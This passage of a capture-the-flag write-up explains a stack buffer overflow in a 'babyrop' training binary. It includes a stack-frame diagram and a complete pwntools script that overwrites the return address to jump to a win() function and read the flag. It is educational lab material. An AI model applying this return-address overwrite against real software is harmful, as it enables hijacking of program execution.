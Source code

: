 As expected, **we've overwritten the return address** with `0x4242424242424242`.

Now that we control the return address, we can simply redirect execution to the `win()` function.

To better understand how our payload maps onto the stack, here’s a visual representation of the stack frame during exploitation. Remember, the stack grows from **higher to lower addresses**, so the return address is at the top. Our goal is to overwrite this return address with the address of the `win()` function:

```txt
+--------------------------------------------+
| Stack Frame (Higher Address at Top ↑)      |
|                                            |
| 0x7fff98a800c8                             |
| Return Address                             |
| → win()                                    |
|--------------------------------------------|
| 0x7fff98a800c0                             |
| Saved RBP → 'A'*8                          |
|--------------------------------------------|
| 0x7fff98a80078                             |
| Padding → 'A'*64                           |
|--------------------------------------------|
| 0x7fff98a80000                             |
| Input Buffer Start                         |
+--------------------------------------------+

```

Here’s the full exploit script using **pwntools**:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or '/challenge/babyrop_level1.0')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

# Offset to return address
offset = 72

io = start()
payload = b'A'*offset
payload += pack(exe.sym['win'])
io.recvuntil(b'address).')
io.sendline(payload)
io.recvuntil(b'flag:\n')
flag = io.recvline()
log.success(f"{flag.decode()}")

#io.interactive()
io.close()
```